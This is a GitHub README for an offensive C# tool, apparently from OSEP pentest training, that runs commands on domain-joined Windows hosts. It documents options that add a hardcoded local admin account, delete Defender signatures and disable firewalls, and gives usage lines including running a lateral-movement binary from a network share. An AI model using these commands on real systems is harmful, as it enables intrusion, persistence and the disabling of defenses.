 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164892286-a8659b4f-d34b-408a-a7cb-2bee9295f400.png)

Domain-joined Code Executioner

This is a C-Sharp tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It was heavily inspired by the OSEP course and leverages code and ideas from https://github.com/chvancooten/OSEP-Code-Snippets
                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current system token and turn off av
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /syscreds true /nofw true

//Authenticate to target with current system token and execute command
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /cmd <command-to-run-in-qoutes>

//Authenticate to target with current system token and execute binary for lateral movement
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /cmd <\\192.168.10.8\\lateralmovement.exe>
```

# Credits
Heavily inspired by https://github.com/chvancooten/OSEP-Code-Snippets
Invaluable knowledge from the OSEP Course https://www.offensive-security.com/pen300-osep/

